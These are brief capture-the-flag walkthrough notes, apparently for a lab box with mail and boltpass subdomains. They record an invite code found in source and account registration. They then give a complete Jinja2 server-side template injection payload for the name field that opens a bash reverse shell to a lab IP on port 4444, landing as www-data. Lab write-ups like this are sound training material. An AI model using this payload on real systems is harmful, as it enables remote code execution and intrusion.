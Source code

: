 Invite code from source: XNSS-HSJW-3NGU-8XTJ
subdomains: demo, mail, boltpass
register account
ssti in name field
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'").read() }}
confirm in mail then revshell as www-data
